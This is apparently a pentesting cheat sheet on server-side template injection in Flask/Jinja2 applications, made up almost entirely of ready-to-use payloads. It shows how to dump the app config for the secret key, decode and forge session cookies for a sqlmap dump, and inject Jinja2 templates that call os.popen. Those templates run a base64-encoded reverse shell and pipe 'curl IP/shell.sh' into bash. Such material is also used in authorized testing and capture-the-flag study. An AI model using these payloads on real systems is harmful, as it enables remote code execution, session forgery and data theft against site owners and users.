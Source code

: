 # Server side template injection
## Flask Jinja2 
Get the secret key
```txt
{{ config }}
```
Decrypt the cookie
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
SQLi in flask session with sqlmap
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
Bypass filtered ->  `'` `_` `.` `{{}}` `if` `for` 
```python
{% with abuqasem=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo <Base64EncodedReverseShellCommand> | base64 -d | bash -i")["read"]() %}abuqasem{% endwith %}
```
To exploit SSTI by image upload
```python
{% with abuqasem=request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["popen"]("curl IP/shell.sh | bash")["read"]() %}
{{ abuqasem }}
{% endwith %}
```
### Further reading
- [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)  
-  [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)  
-  [https://jinja.palletsprojects.com/en/2.10.x/templates](https://jinja.palletsprojects.com/en/2.10.x/templates)/
 - [https://book.hacktricks.xyz/pentesting/pentesting-web/flask](https://book.hacktricks.xyz/pentesting/pentesting-web/flask)
